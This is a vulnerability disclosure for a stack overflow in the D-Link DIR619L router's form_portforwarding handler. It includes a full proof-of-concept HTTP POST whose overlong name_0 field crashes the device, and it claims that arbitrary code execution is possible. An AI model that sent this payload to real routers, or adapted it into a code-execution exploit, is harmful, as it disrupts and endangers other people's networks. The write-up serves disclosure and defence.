

# D-Link Vulnerability

Vendor:D-Link

Product:DIR619L

Version:2.06B01

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `boa` binary:

In the router's `form_portforwarding` function, `ingress_name_%d、sched_name_%d、name_%d` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `ingress_name_%d、sched_name_%d、name_%d` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `ingress_name_%d、sched_name_%d、name_%d` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `name_%d` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/form_portforwarding HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4992
Origin: http://192.168.100.1
Connection: close
Referer: http://192.168.100.1/mydlink/set_Virtual.asp
Upgrade-Insecure-Requests: 1

settingsChanged=1&index=1&enabled_0=1&used_0=0&name_0=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&default_virtual_servers_0=0&public_port_0=88&public_port_to_0=88&sched_name_0=slf&ip_0=192.168.0.100&private_port_0=88&hidden_private_port_to_0=88&protocol_0=17&index=2&enabled_1=1&used_1=0&name_1=HTTF&default_virtual_servers_1=0&public_port_1=88&public_port_to_1=88&sched_name_1=slf&ip_1=192.168.0.100&private_port_1=88&hidden_private_port_to_1=88&protocol_1=17&index=3&enabled_2=1&used_2=0&name_2=HTTF&default_virtual_servers_2=0&public_port_2=88&public_port_to_2=88&sched_name_2=slf&ip_2=192.168.0.100&private_port_2=88&hidden_private_port_to_2=88&protocol_2=17&index=4&enabled_3=1&used_3=0&name_3=HTTF&default_virtual_servers_3=0&public_port_3=88&public_port_to_3=88&sched_name_3=slf&ip_3=192.168.0.100&private_port_3=88&hidden_private_port_to_3=88&protocol_3=17&index=5&enabled_4=1&used_4=0&name_4=HTTF&default_virtual_servers_4=0&public_port_4=88&public_port_to_4=88&sched_name_4=slf&ip_4=192.168.0.100&private_port_4=88&hidden_private_port_to_4=88&protocol_4=17&index=6&enabled_5=1&used_5=0&name_5=HTTF&default_virtual_servers_5=0&public_port_5=88&public_port_to_5=88&sched_name_5=slf&ip_5=192.168.0.100&private_port_5=88&hidden_private_port_to_5=88&protocol_5=17&index=7&enabled_6=1&used_6=0&name_6=HTTF&default_virtual_servers_6=0&public_port_6=88&public_port_to_6=88&sched_name_6=slf&ip_6=192.168.0.100&private_port_6=88&index=8&enabled_7=1&used_7=0&name_7=HTTF&default_virtual_servers_7=0&public_port_7=88&public_port_to_7=88&sched_name_7=slf&ip_7=192.168.0.100&private_port_7=88&hidden_private_port_to_7=88&protocol_7=17&index=9&enabled_8=1&used_8=0&name_8=HTTF&default_virtual_servers_8=0&public_port_8=88&public_port_to_8=88&sched_name_8=slf&ip_8=192.168.0.100&private_port_8=88&hidden_private_port_to_8=88&protocol_8=17&index=10&enabled_9=1&used_9=0&name_9=HTTF&default_virtual_servers_9=0&public_port_9=88&public_port_to_9=88&sched_name_9=slf&ip_9=192.168.0.100&private_port_9=88&hidden_private_port_to_9=88&protocol_9=17&index=11&enabled_10=1&used_10=0&name_10=HTTF&default_virtual_servers_10=0&public_port_10=88&public_port_to_10=88&sched_name_10=slf&ip_10=192.168.0.100&private_port_10=88&hidden_private_port_to_10=88&protocol_10=17&index=12&enabled_11=1&used_11=0&name_11=HTTF&default_virtual_servers_11=0&public_port_11=88&public_port_to_11=88&sched_name_11=slf&ip_11=192.168.0.100&private_port_11=88&hidden_private_port_to_11=88&protocol_11=17&index=13&enabled_12=1&used_12=0&name_12=HTTF&default_virtual_servers_12=0&public_port_12=88&public_port_to_12=88&sched_name_12=slf&ip_12=192.168.0.100&private_port_12=88&hidden_private_port_to_12=88&protocol_12=17&index=14&enabled_13=1&used_13=0&name_13=HTTF&default_virtual_servers_13=0&public_port_13=88&public_port_to_13=88&sched_name_13=slf&ip_13=192.168.0.100&private_port_13=88&hidden_private_port_to_13=88&protocol_13=17&index=15&enabled_14=1&used_14=0&name_14=HTTF&default_virtual_servers_14=0&public_port_14=88&public_port_to_14=88&sched_name_14=slf&ip_14=192.168.0.100&private_port_14=88&hidden_private_port_to_14=88&protocol_14=17&index=16&enabled_15=1&used_15=0&name_15=HTTF&default_virtual_servers_15=0&public_port_15=88&public_port_to_15=88&sched_name_15=slf&ip_15=192.168.0.100&private_port_15=88&hidden_private_port_to_15=88&protocol_15=17&index=17&enabled_16=1&used_16=0&name_16=HTTF&default_virtual_servers_16=0&public_port_16=88&public_port_to_16=88&sched_name_16=slf&ip_16=192.168.0.100&private_port_16=88&hidden_private_port_to_16=88&protocol_16=17&index=18&enabled_17=1&used_17=0&name_17=HTTF&default_virtual_servers_17=0&public_port_17=88&public_port_to_17=88&sched_name_17=slf&ip_17=192.168.0.100&private_port_17=88&hidden_private_port_to_17=88&protocol_17=17&index=19&enabled_18=1&used_18=0&name_18=HTTF&default_virtual_servers_18=0&public_port_18=88&public_port_to_18=88&sched_name_18=slf&ip_18=192.168.0.100&private_port_18=88&hidden_private_port_to_18=88&protocol_18=17&index=20&enabled_19=1&used_19=0&name_19=HTTF&default_virtual_servers_19=0&public_port_19=88&public_port_to_19=88&sched_name_19=slf&ip_19=192.168.0.100&private_port_19=88&hidden_private_port_to_19=88&protocol_19=17&index=21&enabled_20=1&used_20=0&name_20=HTTF&default_virtual_servers_20=0&public_port_20=88&public_port_to_20=88&sched_name_20=slf&ip_20=192.168.0.100&private_port_20=88&hidden_private_port_to_20=88&protocol_20=17&index=22&enabled_21=1&used_21=0&name_21=HTTF&default_virtual_servers_21=0&public_port_21=88&public_port_to_21=88&sched_name_21=slf&ip_21=192.168.0.100&private_port_21=88&hidden_private_port_to_21=88&protocol_21=17&index=23&enabled_22=1&used_22=0&name_22=HTTF&default_virtual_servers_22=0&public_port_22=88&public_port_to_22=88&sched_name_22=slf&ip_22=192.168.0.100&private_port_22=88&hidden_private_port_to_22=88&protocol_22=17&index=24&enabled_23=1&used_23=0&name_23=HTTF&default_virtual_servers_23=0&public_port_23=88&public_port_to_23=88&sched_name_23=slf&ip_23=192.168.0.100&private_port_23=88&hidden_private_port_to_23=88&protocol_23=17
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
